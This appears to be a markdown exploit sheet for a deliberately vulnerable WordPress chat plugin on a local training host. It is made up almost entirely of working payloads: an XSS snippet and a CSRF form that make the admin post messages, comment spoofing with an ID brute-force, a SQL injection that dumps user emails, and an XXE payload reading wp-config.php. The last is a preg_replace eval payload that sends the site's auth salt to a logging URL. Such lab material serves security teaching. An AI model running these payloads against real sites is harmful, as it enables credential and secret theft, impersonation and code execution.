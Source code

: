 Make admin say something
========================

With Blog Access
----------------

### XSS

```js
haX0R = true;
```

```html
<script>
(function() {
	if ( 'undefined' !== typeof haX0R ) {
		return;
	}

	jQuery( '.widget_chat_sploit textarea' ).val( 'I am lame HAHAHA' );

	jQuery( '.widget_chat_sploit form' ).submit();
})()
</script>
```

Without Blog Access
-------------------

### CSRF

```html
<form enctype="text/plain" action="http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit" method="POST">
	<input type="hidden" name="&lt;chat&gt;" value="I am lame HAHAHA :)&lt;/chat&gt;" />
	<input type="submit" value="Click if you like cheese!" />
</form>
```

### Spoof

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'comment=I am lame HAHAHA!' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=5'
```

Get the `comment_post_ID` from http://vip.dev/security/comments/feed/ or brute force with:

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'author=test' --form 'email=test@example.com' --form "comment_post_ID=$i"
```

Get list of all users' email adresses
=====================================

With Blog Access
----------------

### SQL Injection

```bash
curl -i 'http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit&since=3013-05-14+00:00:00%27+UNION+SELECT+user_login+AS+author%2C+user_email+AS+text%2C+0+AS+time+FROM+wp_users+--+'
```

Without Blog Access
-------------------

ORLY?

Get the site's SECRET_KEYs
=========================

With Blog Access
----------------

### XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE xxe [<!ENTITY hi SYSTEM "php://filter/read=convert.base64-encode/resource=file:///home/vagrant/www/security/wp-config.php"> ]>
<chat>Hi! &hi;</chat>
```

You can use your own cookies.

```bash
cat xxe.xml | curl 'http://vip.dev/security/wp-admin/admin-ajax.php?action=chatsploit' --data @- -H 'Cookie: wordpress_9881e728288c003f340dfcb7f8c7c47c=author%7C1368155849%7Cb2da0569604d7e6bae7fc92758ab4eb7; wordpress_logged_in_9881e728288c003f340dfcb7f8c7c47c=author%7C1368155849%7Ce8138862195324278825dc3751409a14;'
```

Without Blog Access
-------------------

Get blog access first ;)

Or just use the arbitrary code execution vulnerability.

Get the site's SECRET_SALTs
===========================

`PREG_REPLACE_EVAL`
-------------------

### With Blog Access

```
hello http://example.com/{${substr(a.($a=get_option(auth_salt)),0,1)}} there

hello http://example.com/{${substr(chr(97).($a=get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))),0,1)}} there
```

### Without Blog Access

sploit.php:
```php
<?php

$log_url = 'http://vip.dev/log.php?';

$encoded_url = '';

for ( $i = 0; $i < strlen( $log_url ); $i++ ) {
	$encoded_url .= 'chr(' . ord( $log_url[$i] ) . ').';
}

$sploit = 'hello http://example.com/{${substr(chr(97).($a=' . mt_rand() . ').(file_get_contents(' . $encoded_url . 'urlencode(get_option(chr(97).chr(117).chr(116).chr(104).chr(95).chr(115).chr(97).chr(108).chr(116))))),0,1)}} there';

echo "$sploit\n";
```

```bash
curl -i 'http://vip.dev/security/wp-comments-post.php' --form 'author=admin' --form 'email=test@example.com' --form 'comment_post_ID=5' --form "comment=$( php sploit.php )"
```
